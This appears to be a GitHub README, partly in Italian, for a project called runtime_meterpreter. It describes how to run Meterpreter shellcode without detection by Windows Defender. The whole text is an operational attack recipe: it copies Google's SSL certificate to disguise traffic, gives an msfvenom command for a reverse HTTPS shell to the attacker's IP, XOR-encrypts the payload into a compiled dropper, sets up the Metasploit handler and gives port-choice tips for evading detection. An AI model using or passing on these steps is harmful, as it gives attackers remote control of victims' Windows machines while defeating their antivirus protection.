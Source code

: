 # runtime_meterpreter

This is a way that today 10/10/2023, gets the meterpreter shellcode executed without Windows Defender detection at runtime and scantime.

1) generate a false SSL certificate for our meterpreter connection. We ll use a metasploit module (This module request a copy of the remote SSL certificate and creates a local (self.signed) version using the information from the remote version.)
   To do this:
      1) type msfconsole
      2) use auxiliary/gather/impersonate_ssl
      3) set RHOSTS www.google.com
      4) run
      5) save the path to the .pem file, it is your certificate (I file PEM vengono utilizzati per archiviare i certificati SSL e le chiavi private che vi sono associate)

2)generate your payload
    to do this:
        1) msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=<YOUR_IP> LPORT=<YOUR_PORT> HANDLERSSLCERTIFICATE=path_to_pem.pem- StagerVerifySSLCert=true -f raw -o meterpreter_winhttps.bin
        2)now XOR encrypt your payload with a custom key
        3)copy the cripted payload in the dropper
        4)compile your dropper.cpp simply by open Visual Studio console and do 'cl.exe dropper.cpp'

3)set up your listener in msfconsole
    to do this:
        1) use exploit/multi/handler
        2) set payload windows/x64/meterpreter/reverse_winhttps
        3) set HANDLERSSLCERTIFICATE path_to_pem.pem
        4) set LHOST <YOUR_IP>
        5) set LPORT <YOUR_PORT>   (avoid port 4444, it gets detected as it is the standard metasploit port)
        6) set StagerVerifySSLCert true
        7) run

4) just execute the dropper.exe
  
